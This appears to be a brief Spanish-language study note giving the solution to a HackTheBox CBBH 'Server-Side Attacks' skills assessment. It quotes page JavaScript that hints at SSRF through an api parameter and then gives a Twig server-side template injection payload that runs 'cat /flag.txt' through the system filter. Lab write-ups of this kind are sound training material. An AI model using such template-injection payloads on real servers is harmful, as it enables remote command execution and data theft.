


# Skills Assessment

```html
<script>
		for (var truckID of ["FusionExpress01", "FusionExpress02", "FusionExpress03"]) {
			var xhr = new XMLHttpRequest();
			xhr.open('POST', '/', false);
			xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
			xhr.onreadystatechange = function() {
				if (xhr.readyState === XMLHttpRequest.DONE) {
					var resp = document.getElementById(truckID)
					if (xhr.status === 200) {
						var responseData = xhr.responseText;
						var data = JSON.parse(responseData);

						if (data['error']) {
							resp.innerText = data['error'];
						} else {
							resp.innerText = data['location'];
						}
					} else {
						resp.innerText = "Unable to fetch current truck location!"
					}
				}       
			};
			xhr.send('api=http://truckapi.htb/?id' + encodeURIComponent("=" + truckID));
		}
    </script>
```

## SSTI Twig





```php
{{['cat\x20/flag.txt']|filter('system')}}
```

## Material relacionado

- [SSI](../../../Web-Security/Server-Side/ssi.md)
- [SSRF](../../../Web-Security/Server-Side/ssrf.md)
- [SSTI](../../../Web-Security/Server-Side/ssti.md)
- [XSLT Injection](../../../Web-Security/Server-Side/xslt-injection.md)


## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 12- Server-Side Attacks/5 - Skills Assessment.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../../README.md) · [Inicio](../../../README.md)
